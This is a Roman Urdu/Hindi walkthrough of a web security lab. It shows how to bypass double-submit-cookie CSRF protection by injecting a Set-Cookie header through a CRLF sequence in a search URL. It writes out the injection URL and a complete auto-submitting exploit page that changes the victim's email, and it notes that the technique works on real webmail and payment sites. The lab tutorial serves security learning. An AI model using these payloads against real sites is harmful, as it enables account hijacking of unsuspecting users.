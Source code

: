 🔥 Lab Ka Root Masla:

Website ne CSRF se bachne ke liye double-submit cookie method use kiya hai, jo insecure hota hai agar cookie client-side se hi set ki ja sakti ho. Is case mein hum search endpoint ka misuse karenge, jahan se hum Set-Cookie header inject kar sakte hain victim ke browser mein.


---

🧠 Lab Ka Solution:

✅ Step 1: Login and Capture Email Change Request

Burp browser open karo aur wiener:peter se login karo.

Go to "My Account" → Change your email (e.g., test1@evil.com).

Burp Proxy → History mein jao, us request ko dhoondo jahan email update hui hai.

Right-click → Send to Repeater.


✅ Step 2: Observe CSRF Token Behavior

Repeater mein dekho:

Body mein csrf=fake jaisa kuch ho ga.

Cookies mein bhi csrf=fake type ka hoga.


Yani server simply yeh check karta hai: Request Body ka csrf == Cookie ka csrf ➤ No session tie, insecure!


---

✅ Step 3: Discover Cookie Injection via Search

Website par kuch search karo (e.g. test).

Proxy → History mein search request dhoondo.

Dekho response headers mein: Set-Cookie: csrf=... dikha?

Matlab, hum search endpoint se cookie inject kar sakte hain!



---

✅ Step 4: Build Malicious URL for Cookie Injection

Yeh specially crafted URL banaye:


https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None

📌 %0d%0a means new line → isse Set-Cookie header inject hota hai.


---

✅ Step 5: Create Exploit HTML Page

Burp ka exploit server open karo → New exploit request → Raw mein paste karo:

<html>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attackeremail@evil.com" />
      <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>

📌 csrf=fake → dono jagah same rakhna (cookie aur form).


---

✅ Step 6: Store & Deliver

Exploit server par HTML save karo.

Make sure email koi naya unique ho (jo pehle kisi ne use na kiya ho).

"Store" par click karo.

Phir "Deliver to victim" pe click karo.



---

🟢 Lab Solve Ho Jayega!


---

💡 Penetration Testing Tip:

Double-submit CSRF protection sirf tab secure hoti hai jab:

Cookies HttpOnly hoon

Session ke saath tightly linked ho


Yahan humne browser se fake csrf cookie inject ki and form submit kar diya — real-world mein yeh technique webmail, payment portals mein CSRF attacks mein kaam aati hai.


---